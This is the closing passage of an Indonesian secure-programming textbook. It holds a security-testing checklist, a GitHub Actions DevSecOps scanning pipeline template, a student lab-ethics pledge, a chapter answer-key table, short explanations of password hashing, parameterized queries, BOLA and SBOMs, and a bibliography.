| 3  | DAST Baseline | ZAP | http://staging/... | 60 mnt | Auto | |
| 4  | Manual Code Review | - | Critical modules | 4 jam | Manual | |
| 5  | DAST Full (opsional) | ZAP | http://staging/... | 3 jam | Manual | |

KRITERIA PASS/FAIL
------------------
- Critical CVE: 0 → Pass
- High CVE: 0 → Pass (atau mitigated)
- SAST Critical/Blocker: 0 → Pass
- DAST High: 0 → Pass (atau false positive documented)

HASIL
-----
| No | Temuan | Severity | Status |
|----|--------|----------|--------|
|    |        |          |        |

Kesimpulan: □ PASS (sistem siap release)  □ FAIL (perbaikan diperlukan)
```

---

## LAMPIRAN F — DEVSECOPS PIPELINE CONFIGURATION TEMPLATE

```yaml
# .github/workflows/devsecops-pipeline.yml
# Template: DevSecOps Security Pipeline
# Gunakan sesuai kebutuhan proyek Anda

name: DevSecOps Security Pipeline

on:
  push:
    branches: [main, develop, 'feature/**']
  pull_request:
    branches: [main, develop]
  schedule:
    - cron: '0 2 * * *'  # Nightly full scan

env:
  PYTHON_VERSION: '3.11'
  
jobs:
  # ═══════════════════════════════════════════
  # GATE 1: SECRET SCANNING
  # ═══════════════════════════════════════════
  secret-scan:
    name: 'Gate 1: Secret Scanning'
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          fetch-depth: 0
      
      - name: Gitleaks Secret Scan
        uses: gitleaks/gitleaks-action@v2
        env:
          GITHUB_TOKEN: ${{ secrets.GITHUB_TOKEN }}

  # ═══════════════════════════════════════════
  # GATE 2: SAST
  # ═══════════════════════════════════════════
  sast:
    name: 'Gate 2: SAST (Semgrep)'
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      
      - name: Run Semgrep SAST
        uses: returntocorp/semgrep-action@v1
        with:
          config: >-
            p/python
            p/owasp-top-ten
            p/secrets
        # Fails automatically if issues found

  # ═══════════════════════════════════════════
  # GATE 3: SOFTWARE COMPOSITION ANALYSIS
  # ═══════════════════════════════════════════
  sca:
    name: 'Gate 3: SCA + SBOM (Trivy)'
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      
      - name: Run Trivy SCA
        uses: aquasecurity/trivy-action@master
        with:
          scan-type: 'fs'
          format: 'table'
          severity: 'CRITICAL,HIGH'
          exit-code: '1'
      
      - name: Generate SBOM
        uses: aquasecurity/trivy-action@master
        with:
          scan-type: 'fs'
          format: 'cyclonedx'
          output: 'sbom.cdx.json'
      
      - uses: actions/upload-artifact@v4
        with:
          name: sbom-${{ github.sha }}
          path: sbom.cdx.json
          retention-days: 90

  # ═══════════════════════════════════════════
  # BUILD (Hanya jika semua Gate pass)
  # ═══════════════════════════════════════════
  build:
    name: 'Build & Container Scan'
    needs: [secret-scan, sast, sca]
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      
      - name: Build Docker Image
        run: docker build -t app:${{ github.sha }} .
      
      - name: Scan Container Image
        uses: aquasecurity/trivy-action@master
        with:
          image-ref: app:${{ github.sha }}
          severity: 'CRITICAL'
          exit-code: '1'

  # ═══════════════════════════════════════════
  # GATE 4: DAST (Hanya di staging/nightly)
  # ═══════════════════════════════════════════
  dast:
    name: 'Gate 4: DAST Baseline (ZAP)'
    needs: [build]
    runs-on: ubuntu-latest
    if: github.ref == 'refs/heads/develop' || github.event_name == 'schedule'
    steps:
      - name: ZAP Baseline Scan
        uses: zaproxy/action-baseline@v0.11.0
        with:
          target: ${{ secrets.STAGING_URL }}
          fail_action: true
          report_html: 'zap-report.html'
      
      - uses: actions/upload-artifact@v4
        if: always()
        with:
          name: zap-report
          path: zap-report.html
```

---

## LAMPIRAN G — PERNYATAAN ETIKA PRAKTIKUM

```
PERNYATAAN ETIKA DAN TANGGUNG JAWAB PRAKTIKUM
===============================================
Program Studi : Magister Terapan Forensik Digital dan Keamanan Siber
Mata Kuliah   : Secure Programming (VSFDKS04)

Saya yang bertanda tangan di bawah ini:
Nama : _______________________________________________
NIM  : _______________________________________________

Menyatakan bahwa dalam melaksanakan seluruh praktikum pada mata kuliah 
Secure Programming:

1. LEGALITAS
   Semua aktivitas dilakukan dalam lingkungan lab yang diotorisasi
   (WebGoat, DVWA, Juice Shop di localhost, atau lingkungan yang 
   secara eksplisit disediakan untuk praktikum).

2. BATASAN PENGGUNAAN
   Saya tidak akan menggunakan teknik, tools, atau pengetahuan yang
   diperoleh dari praktikum ini untuk:
   a. Mengakses sistem, jaringan, atau data tanpa izin
   b. Mengganggu layanan atau sistem milik pihak lain
   c. Tindakan yang melanggar hukum (UU ITE No. 11/2008, KUHP,
      atau peraturan perundangan lain yang berlaku)

3. KERAHASIAAN
   Jika dalam praktikum menemukan kerentanan nyata pada sistem
   eksternal (tidak disengaja), saya akan melaporkan kepada dosen
   dan mengikuti prosedur responsible disclosure yang tepat.

4. INTEGRITAS
   Data dan hasil praktikum yang dilaporkan adalah hasil kerja saya
   sendiri, bukan hasil rekayasa atau plagiat.

5. TANGGUNG JAWAB
   Saya memahami bahwa penyalahgunaan pengetahuan keamanan siber
   dapat mengakibatkan sanksi akademik, administratif, dan hukum.

Demikian pernyataan ini saya buat dengan sebenar-benarnya.

Tempat, Tanggal: ________________________
Tanda Tangan  : ________________________
Nama Lengkap  : ________________________
```

---

# KUNCI JAWABAN GLOBAL DAN PEMBAHASAN

## Rangkuman Kunci Jawaban Pilihan Ganda Per Bab

| Bab | Soal 1 | Soal 2 | Catatan |
|-----|--------|--------|---------|
| Bab 1 | Bervariasi | Bervariasi | Lihat pembahasan di masing-masing bab |
| Bab 2 | Bervariasi | Bervariasi | OWASP Top 10 — A01-A10 |
| Bab 3 | Bervariasi | Bervariasi | CWE Top 25 |
| Bab 4 | C | B | Memory vulnerabilities |
| Bab 5 | C | B | Injection attacks |
| Bab 6 | C | B | XSS, CSRF, SSRF |
| Bab 7 | C | B | Auth & Session |
| Bab 9 | B | B | API Security |
| Bab 10 | C | — | SAST |
| Bab 11 | C | — | DAST |
| Bab 12 | B | — | SCA + SBOM |
| Bab 13 | B | C | Threat Modeling |
| Bab 14 | C | — | Code Review + Patterns |
| Bab 15 | B | — | DevSecOps |
| Bab 16 | B | — | UAS Review |

## Penjelasan Singkat Konsep Kunci

**Mengapa Argon2id > bcrypt > PBKDF2 untuk password hashing?**
Argon2id: memory-hard + time-hard → GPU/ASIC sangat tidak efisien; bcrypt: time-hard saja tetapi sudah terbukti; PBKDF2: hanya time-hard, dapat dipercepat dengan GPU. Semakin sulit untuk brute-force = password database yang bocor lebih lama aman.

**Mengapa parameterized query mencegah SQLi?**
Parameterized query memisahkan kode SQL dari data. Data tidak pernah diinterpretasikan sebagai SQL — selalu diperlakukan sebagai nilai literal. Bahkan jika data mengandung karakter SQL special (`'`, `--`, `;`), parser SQL tidak akan menginterpretasikannya sebagai instruksi SQL.

**Mengapa BOLA sangat umum di API?**
API mengekspos ID objek secara eksplisit di URL (RESTful design). Developer sering lupa menambahkan cek kepemilikan karena sudah ada cek autentikasi. Autentikasi ≠ otorisasi per objek.

**Mengapa SBOM penting setelah Log4Shell?**
Organisasi dengan SBOM tahu dalam hitungan menit apakah mereka menggunakan Log4j dan versi berapa. Tanpa SBOM, proses ini memakan berhari-hari audit manual sambil penyerang sudah aktif mengeksploitasi.

---

# DAFTAR PUSTAKA

## Pustaka Utama (dari RPS VSFDKS04)

1. Howard, M., & Lipner, S. (2006). *The Security Development Lifecycle: SDL: A Process for Developing Demonstrably More Secure Software*. Microsoft Press.

2. McGraw, G. (2006). *Software Security: Building Security In*. Addison-Wesley Professional.

3. Stuttard, D., & Pinto, M. (2011). *The Web Application Hacker's Handbook: Finding and Exploiting Security Flaws* (2nd ed.). Wiley.

4. OWASP Foundation. (2021). *OWASP Top 10:2021*. https://owasp.org/Top10/

5. OWASP Foundation. (2023). *OWASP API Security Top 10:2023*. https://owasp.org/API-Security/

6. MITRE. (2024). *CWE Top 25 Most Dangerous Software Weaknesses 2024*. https://cwe.mitre.org/top25/

## Pustaka Pendukung

7. NIST. (2022). *Secure Software Development Framework (SSDF) Version 1.1: Recommendations for Mitigating the Risk of Software Vulnerabilities* (NIST SP 800-218). National Institute of Standards and Technology.

8. OWASP Foundation. (2021). *OWASP Application Security Verification Standard (ASVS) 4.0.3*. https://owasp.org/www-project-application-security-verification-standard/

9. OWASP Foundation. (2021). *OWASP Testing Guide v4.2*. https://owasp.org/www-project-web-security-testing-guide/

10. NIST. (2020). *Addressing Visibility Challenges with FIPS 140-2 in the Expanded Cryptographic Module Validation Program*. NIST.

11. OWASP Foundation. (2023). *OWASP Threat Dragon*. https://owasp.org/www-project-threat-dragon/

12. Shostack, A. (2014). *Threat Modeling: Designing for Security*. Wiley.

13. Kim, G., Humble, J., Debois, P., Willis, J., & Forsgren, N. (2021). *The DevOps Handbook* (2nd ed.). IT Revolution Press.

14. Google. (2023). *SLSA: Supply-chain Levels for Software Artifacts*. https://slsa.dev/

15. CycloneDX. (2024). *CycloneDX Specification v1.6*. https://cyclonedx.org/specification/overview/

16. SPDX. (2022). *SPDX Specification 2.3*. The Linux Foundation. https://spdx.dev/specifications/

17. aquasecurity. (2024). *Trivy: Scanner for vulnerabilities in container images, file systems, and Git repositories*. https://github.com/aquasecurity/trivy

18. OWASP Foundation. (2024). *OWASP ZAP (Zed Attack Proxy)*. https://www.zaproxy.org/

19. SonarSource. (2024). *SonarQube Documentation*. https://docs.sonarsource.com/sonarqube/

20. Semgrep. (2024). *Semgrep Documentation*. https://semgrep.dev/docs/

21. GitHub. (2024). *CodeQL Documentation*. https://docs.github.com/en/code-security/code-scanning/introduction-to-code-scanning/about-code-scanning-with-codeql

22. OWASP Foundation. (2024). *OWASP Dependency-Check*. https://owasp.org/www-project-dependency-check/

23. NCC Group. (2024). *XZ Utils Backdoor Technical Analysis*. https://research.nccgroup.com/

24. CISA. (2021). *Apache Log4j Vulnerability Guidance*. https://www.cisa.gov/apache-log4j-vulnerability-guidance

25. NIST. (2023). *National Vulnerability Database (NVD)*. https://nvd.nist.gov/

---

*Buku ajar ini telah diselaraskan dengan Rencana Pembelajaran Semester (RPS) VSFDKS04 — Secure Programming, Program Studi Magister Terapan Forensik Digital dan Keamanan Siber, PENS. Seluruh konten bersifat defensif, legal, dan berotorisasi. Tidak ada instruksi ofensif yang dapat digunakan untuk menyerang sistem nyata.*

*Versi: 1.0 | Disusun: 2025 | Format: Markdown*

